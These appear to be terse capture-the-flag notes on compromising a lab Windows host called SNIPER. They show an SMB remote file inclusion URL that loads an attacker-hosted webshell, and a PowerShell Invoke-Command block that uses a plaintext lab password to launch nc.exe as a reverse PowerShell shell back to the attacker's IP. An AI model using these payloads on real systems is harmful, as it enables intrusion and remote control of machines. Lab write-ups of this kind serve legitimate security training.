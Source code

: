 ##

http://10.129.107.51/blog/?lang=//10.10.14.4//evil//webshell.php

##

#
WEB RFI doesn't work, but SMB RFI works. Reverse Shell with Pentesting Monkey doesn't work, but Metepreter and WebShell work. 

Created Dir and upload NC to execute powershell to kali. nc.exe -e powershell ip port
#

```
$username = 'SNIPER\Chris'
 $password = '36mEAhz/B8xQ~2VM'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Invoke-command -computername SNIPER -credential $credential -scriptblock { cmd.exe /c "C:\tmp\nc.exe" -e powershell 10.10.14.39 1234 }
```
```
Checking with Tree /f /a
```
